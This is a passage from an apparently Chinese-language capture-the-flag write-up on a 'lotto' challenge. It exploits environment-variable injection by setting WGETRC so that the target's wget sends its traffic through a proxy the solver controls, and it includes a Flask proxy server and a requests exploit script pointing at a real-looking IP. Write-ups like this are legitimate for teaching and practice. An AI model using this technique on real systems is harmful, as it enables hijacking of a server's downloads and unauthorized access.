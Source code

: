###  利用WGETRC变量

用`WGETRC`设置`http_proxy`代理到自己服务器，下载一个和`forecast`一样的文件，可以获得flag。

我们先自己服务器运行脚本，这个脚本作为接受请求，然后控制返回内容

```python
from flask import Flask, make_response

app = Flask(__name__)


@app.route("/")
def index():
    lotto = "http_proxy = http://ip:10000"
    response = make_response(lotto)
    response.headers['Content-Type'] = 'text/plain'
    response.headers['Content-Disposition'] = 'attachment; filename=lotto_result.txt'
    return response


if __name__ == "__main__":
    app.run(debug=True, host='0.0.0.0', port=10000)


```

然后再运行脚本，其中res.txt内容为

```
http_proxy=http://42.193.170.176:10000
```



```python
import requests

def shell():
    url = "http://xxx/"

    r = requests.post(url + "forecast",
                      files={'file': open("res.txt", "rb")})

    data = {
        "lotto_key": "WGETRC",
        "lotto_value": "/app/guess/forecast.txt"
    }

    r = requests.post(url + "lotto", data=data)
    print(r.text)



if __name__ == '__main__':
    shell()

```

